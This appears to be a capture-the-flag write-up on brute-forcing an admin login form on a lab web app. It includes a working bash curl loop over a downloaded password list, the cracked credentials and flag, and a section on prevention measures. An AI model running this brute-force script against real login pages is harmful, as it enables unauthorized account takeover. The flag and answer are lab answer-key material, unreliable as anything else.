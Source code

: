 # Brute Force Authentication Vulnerability

## Overview
The login form at `/?page=signin` is vulnerable to brute force attacks, allowing attackers to guess admin credentials with no rate limiting.

---

## How It Works

1. **Finding the Target:**  
   In a previous breach, we gained access to the members page, which revealed that "admin" is a valid username.
2. **Attack:**  
   Login requests are sent like this:
   ```
   /?page=signin&username=admin&password=<PASSWORD>&Login=Login
   ```
   A failed login shows "WrongAnswer.gif".

---

## Exploitation Methods

### ** Bash Script with Password List**

- Create your own Password list or Download a password list from GitHub:
  ```
  echo -e "admin\nadmin123\n123456\npassword\nshadow\n12345678\nroot\npassw0rd\n1234" > pwdlist.txt

  ```

  or 

  ```bash
  wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt -O pwdlist.txt
  ```
- Use this brute force loop:
  ```bash
  for pwd in $(cat pwdlist.txt); do 
  resp=$(curl -s "http://<IP_ADDRESS>/?page=signin&username=admin&password=$pwd&Login=Login")
  if [[ "$resp" == *"The flag is :"* ]]; then 
    flag=$(echo "$resp" | grep -oP 'The flag is : \K[a-f0-9]{64}')
    echo "Success! Username: admin | Password: $pwd | Flag: $flag"
    break
  fi done
  ```
- Password `shadow` is found to work.


---

## Result

- **Username:** admin  
- **Password:** shadow  
- **Flag:** `b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2`

---

## Prevention

1. **Account Lockout:** Temporarily disable accounts after multiple failures.
2. **Strong Password Policy:** Require complex, non-common passwords.
3. **MFA:** Add Multi-Factor Authentication for all users.
4. **CAPTCHA:** Use CAPTCHA after failed logins.
5. **Rate Limit:** Restrict login attempts per IP.
6. **Monitoring:** Alert on brute force patterns.

---

## Resources

- Password list source:  
  [https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/xato-net-10-million-passwords-100.txt)
